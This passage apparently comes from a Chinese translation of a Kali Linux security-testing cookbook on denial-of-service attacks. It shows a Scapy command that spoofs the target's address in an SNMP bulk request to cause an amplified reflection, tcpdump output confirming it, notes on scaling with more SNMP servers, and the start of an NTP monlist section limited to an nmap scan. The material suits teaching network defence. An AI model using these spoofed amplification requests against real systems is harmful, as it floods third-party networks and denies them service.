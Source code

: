 ```
>>> send(IP(dst="172.16.36.134",src="172.16.36.135")/ UDP(sport=161,dport=161)/SNMP(PDU=SNMPbulk(max_repetitions=50,varbindlist =[SNMPvarbind(oid=ASN1_OID('1.3.6.1.2.1.1')),SNMPvarbind(oid=ASN1_OID('1. 3.6.1.2.1.19.1.3'))])),verbose=1,count=2) 
. 
Sent 2 packets. 
```

`send()`函数应该用于发送这些伪造请求，因为响应返回预期不会给本地接口。 要确认载荷是否到达目标系统，可以使用 TCPdump 捕获传入流量：

```
admin@ubuntu:~$ sudo tcpdump -i eth0 -vv src 172.16.36.134 
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 96 bytes 
13:32:14.210732 IP (tos 0x0, ttl 128, id 5944, offset 0, flags [+], proto UDP (17), length 1500) 172.16.36.134.snmp > 172.16.36.135.snmp:  [len1468<asnlen2150] 
13:32:14.210732 IP (tos 0x0, ttl 128, id 5944, offset 1480, flags [none], proto UDP (17), length 702) 172.16.36.134 > 172.16.36.135: udp
13:32:35.133384 IP (tos 0x0, ttl 128, id 8209, offset 0, flags [+], proto UDP (17), length 1500) 172.16.36.134.snmp > 172.16.36.135.snmp:  [len1468<asnlen2150] 
13:32:35.133384 IP (tos 0x0, ttl 128, id 8209, offset 1480, flags [none], proto UDP (17), length 702) 172.16.36.134 > 172.16.36.135: udp

4 packets captured 
4 packets received by filter 
0 packets dropped by kernel 
```

在所提供的示例中，TCPdump 配置为捕获`eth0`接口上，来自源IP地址`172.16.36.134`（SNMP 主机的IP地址）的流量。

### 工作原理

放大攻击的原理是利用第三方设备，使网络流量压倒目标。 对于多数放大攻击，必须满足两个条件：

+   用于执行攻击的协议不验证请求源
+   来自所使用的网络功能的响应应该显着大于用于请求它的请求。

SNMP 放大攻击的效率取决于 SNMP 查询的响应大小。 另外，可以通过使用多个 SNMP 服务器来增加攻击的威力。

## 6.6 NTP 放大 DoS 攻击

NTP 放大 DoS 攻击利用响应远程 monlist 请求的网络时间协议（NTP）服务器。 monlist 函数返回与服务器交互的所有设备的列表，在某些情况下最多达 600 个列表。 攻击者可以伪造来自目标 IP 地址的请求，并且漏洞服务器将为每个发送的请求返回非常大的响应。 在写这本书的时候，这仍然是一个常见的威胁，目前正在大规模使用。 因此，我将仅演示如何测试 NTP 服务器，以确定它们是否将响应远程 monlist 请求。 补丁程序可用于大多数 NTP 服务来解决此问题，并且任何有存在漏洞的设备应该修复或下线。

### 准备

为了确定是否可以利用 NTP 服务器执行 NTP 放大攻击，你需要有启用 NTP 的设备。 在提供的示例中，Ubuntu 用于托管 NTP 服务。 有关设置 Ubuntu 的更多信息，请参阅本书第一章中的“安装 Ubuntu Server”秘籍。

### 操作步骤

为了确定远程服务器是否运行 NTP 服务，Nmap 可用于快速扫描 UDP 端口 123。 `-sU`选项可用于指定 UDP，然后可使用`-p`选项来指定端口 ：

```
root@KaliLinux:~# nmap -sU 172.16.36.224 -p 123

Starting Nmap 6.25 ( http://nmap.org ) at 2014-02-24 18:12 EST 
Nmap scan report for 172.16.36.224 
Host is up (0.00068s latency). 
PORT    STATE SERVICE 
123/udp open  ntp 
MAC Address: 00:0C:29:09:C3:79 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.10 seconds
```
